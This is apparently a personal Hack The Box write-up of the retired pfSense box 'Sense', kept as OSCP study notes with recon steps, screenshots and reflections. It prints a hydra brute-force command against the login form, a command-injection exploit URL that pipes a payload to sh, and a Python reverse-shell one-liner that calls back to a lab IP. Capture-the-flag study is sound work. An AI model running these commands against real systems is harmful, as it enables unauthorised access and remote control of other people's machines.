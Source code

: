 # Sense Writeup

Name: Sense
Date:  28/3/2024
Difficulty:  Easy
Goals:  OSCP Prep
Learnt: 
- When you get banned learn how to proxy!
- This box actually harmed me so I left a review.
- Non-sensical
- I ACTUAL did this boxes without finishing it. the only thing that was the issue was the `\'{payload}\'` and instead without the escaping of `'` as f-strings do not need you to escape single quotes, because python is just fucking stupid.
Beyond Root:
- Blooms Taxomony for myself and notes

Previous recon and progress from 2022 are after the Beyond Root

## Return in the year Bing, my poor 2022 self avenged!

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Sense/Screenshots/ping.png)

Considering the ominous banning and requirement of proxies..
![](pFFFnonsensiscalboxnotcool.png)

Lesson I learnt from this box not stated below is a thousand pictures tell a million words!
![](MORESCREENSHOTS.png)
The version is right there! This made me wonder about the Zenbleed vulnerability and if that is actually patched on all these machines, back then it definitely was not. I picked the correct vulnerability. So really this box is done, but my current frame of mind was stressed due getting Covid preparing in the first of three months. I am glad I realised this box is not good. In 2024 it is rated 2.7, which not good.

AND root!
![](Iwouldhavegothis.png)


## Post Root Reflection

- Left an upset review to pay tribute to my past self
- Sometimes it is just that easy

## Beyond Root

Hack-Bloomings-Hackonomy-For-Learned 

Heavily inspired, by Blooms Taxonomy no offence to Bloom:
![1920](bloomisaplum.excalidraw)


https://www.teachthought.com/learning/what-is-blooms-taxonomy/
https://cft.vanderbilt.edu/guides-sub-pages/blooms-taxonomy/


#### Previous Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Sense/Screenshots/ping.png)

Nuclei:
![lightpd](lighttpd-1-4-35.png)

Nmap found /tree
![tree](silverstripetreedirectory.png)

![links](treeoflinks.png)

Firewalls
![changelog](changelogDOTtxt.png)

Blocked out non multiples of less than 3
![sense](oneofthreevulns.png)
2.2 - 2.4

Research `pfsense_ng`
[Documentation: Feature list 2.0](https://docs.netgate.com/pfsense/en/latest/releases/2-0-0.html)
FreeBSD!

Basically tried some of the exploits; I missed the system-users.txt file, because I did not proxy after being banned. Checked the video, after one of the exploits required authenication and I tried the others..

![sad](sadban.png)

Tried:
```bash
hydra -l Rohit -P /usr/share/wordlists/rockyou.txt -f 10.129.63.73 http-post-form '/index.php:__csrf_magic=sid%3A9b9199df3b86ab6e2c7871980c946b040c5ac939%2C1662233351&usernamefld=^USER^&passwordfld=^PASS^&login=Login:F=incorrect'
```
Then tried pfsense as password with rohit, not Rohit.

#### Previous Exploit attempts

Secondly I changed the exploit to handle string concatenation properly in 3.10 python:

```python
login_url = f"https://{rhost}/index.php"
exploit_url = f"https://{rhost}/status_rrd_graph_img.php?database=queues;printf\'{payload}\'|sh"
```

This also did not work, 

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
